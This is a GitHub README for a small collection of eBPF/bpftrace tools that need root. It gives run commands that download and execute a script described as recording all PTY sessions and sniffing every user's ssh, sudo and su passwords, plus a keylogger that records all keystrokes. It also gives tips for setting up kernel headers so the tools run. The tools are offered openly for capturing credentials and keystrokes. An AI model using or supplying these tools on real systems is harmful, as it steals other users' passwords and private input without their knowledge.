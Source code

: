 # eBPF tools

A (short) collecton of eBPF enabled tools (need root privileges to run);

Prerequisite: Install the latest bpftrace tool:
```console
curl -o bpftrace -fsSL https://github.com/iovisor/bpftrace/releases/latest/download/bpftrace
chmod 755 bpftrace
```

## Project #1 - Sniff all ssh/login/xterm session:

Record all PTY sessions and sniffs all ssh/sudo/su passwords of all users.

```console
curl -o ptysnoop.bt -fsSL https://github.com/hackerschoice/bpfhacks/blob/main/ptysnoop.bt
export BPFTRACE_STRLEN=200
./bpftrace -Bnone ptysnoop.bt
```
<p align="center">
<img width="675" alt="ptysnoop" src="https://github.com/hackerschoice/bpfhacks/assets/5938498/de068ae5-9cea-44fc-83a6-56e4d37dee93">
</p>

Tools by others: [SSHLog](https://ebpf.io/applications/#sshlog).

## Project #2 - Keylogger:

Record all keys pressed on the keyboard:

```console
./bpftrace -Bnone keylogger.bt
```
<p align="center">
<img alt="keuylogger" src="https://github.com/hackerschoice/bpfhacks/assets/5938498/2d9d90bf-497d-4cc7-9583-5b8c162231b6">
</p>

## TIPS & TRICKS

It may complain about missing Linux Kernel header files. Download them to a local directory:
```sh
wget https://debian.sipwise.com/debian-security/pool/main/l/linux/linux-headers-...
dpkg-deb -xv linux-headers-*.deb "$(pwd)"
export BPFTRACE_KERNEL_SOURCE="$(echo "$(pwd)/usr/src/linux-headers-"*)"
sed '/generated\/autoconf.h/d' -i "${BPFTRACE_KERNEL_SOURCE}/include/linux/kconfig.h"
```

Check for BPF support in the Kernel (it is enabled by default):
```sh
grep CONFIG_BPF /boot/config-$(uname -r)
```



